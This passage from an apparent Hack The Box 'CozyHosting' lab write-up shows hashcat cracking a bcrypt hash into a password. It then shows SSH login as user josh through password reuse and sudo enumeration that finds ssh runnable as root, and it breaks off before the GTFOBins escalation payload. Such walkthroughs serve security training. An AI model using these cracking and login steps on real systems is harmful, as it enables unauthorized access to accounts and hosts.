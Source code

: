 Among the listed hashes, let's try 3200 hash which is the most common.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ hashcat -m 3200 hashes --user /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

...SNIP...

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Assuming that the password is reused, let's try sign-in as `josh`.

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

...SNIP...

Last login: Tue Apr  8 02:14:09 2025 from 10.10.14.2
josh@cozyhosting:~$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:~$ whoami
josh
```



# Shell as `root`

### Enumeration

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

The user `josh` can `sudo` with `ssh` command.

### Exploit `ssh`

According to `gtfobins`, there's a payload to escalate `sudo` privilege with `ssh` command.
